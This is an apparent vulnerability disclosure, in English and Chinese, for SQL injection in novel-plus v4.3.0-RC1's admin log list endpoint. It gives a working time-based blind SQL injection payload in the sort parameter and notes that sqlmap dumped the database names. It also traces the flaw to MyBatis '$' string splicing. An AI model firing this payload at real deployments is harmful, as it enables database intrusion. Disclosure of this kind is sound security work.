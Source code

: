 
# SQL injection vulnerability exists in novel-plus v4.3.0-RC1

## The common/log/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

## novel-plus系统novel-admin子系统common/log/list接口存在SQL注入

#### official website: https://novel.xxyopen.com/index.htm
 
#### github: https://github.com/201206030/novel-plus
 
#### Affected version: v4.3.0-RC1
 
#### releases：https://github.com/201206030/novel-plus/releases/tag/v4.3.0-RC1
 

Payload: 
```
http://127.0.0.1:8088/common/log/list?limit=10&offset=0&sort=gmt_create AND (SELECT 1155 FROM (SELECT(SLEEP(5)))YVhZ)&order=desc&operation=&username=
```

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

> information_schema<br>
> novel_plus

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705300429943-63dd8aa9-b069-4ef9-865a-f35097ebb128.png#averageHue=%23131313&clientId=uf69594bc-e91d-4&from=paste&height=585&id=u90d64431&originHeight=790&originWidth=2204&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=143888&status=done&style=none&taskId=u9eba4599-6ba6-4cf1-b98e-fb6f63c990a&title=&width=1632.5927079230914)

The list interface in LogController calls the queryList method from LogService to query logs.

LogController中list接口调用LogService的queryList方法查询日志；

novel-admin/src/main/java/com/java2nb/common/controller/LogController.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298345047-65504545-cadc-4f7e-a387-3bf27d45e880.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=649&id=ua4f4b94c&originHeight=876&originWidth=1072&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=117700&status=done&style=none&taskId=u4da64b9d-e333-4cb9-9c65-9fe8dec5cc1&title=&width=794.0741301694891)

LogServiceImpl calls logMapper to query the logs.

LogServiceImpl中调用logMapper查询日志；

novel-admin/src/main/java/com/java2nb/common/service/impl/LogServiceImpl.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298425700-17707c68-bd80-4c5e-bde7-906a3613a22a.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=651&id=ud9f5f2e3&originHeight=879&originWidth=1030&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=112809&status=done&style=none&taskId=u65d05bc8-812c-47f2-a42e-7c78c32fc53&title=&width=762.9630168606099)

In LogMapper, the usage of the $ symbol to concatenate the sort parameter and the order parameter results in an SQL injection vulnerability.

LogMapper中sort参数和order参数使用了$符号来拼接，导致存在SQL注入漏洞；

novel-admin/src/main/resources/mybatis/common/LogMapper.xml

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298554780-94226292-b6f7-441e-96c3-67407b1b25b0.png#averageHue=%2354513a&clientId=uac25bd4d-4807-4&from=paste&height=861&id=u2a7f34e0&originHeight=1162&originWidth=1652&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=247962&status=done&style=none&taskId=u985f88b1-2de8-4f2b-b0ec-95e569ef91c&title=&width=1223.7037901492502)






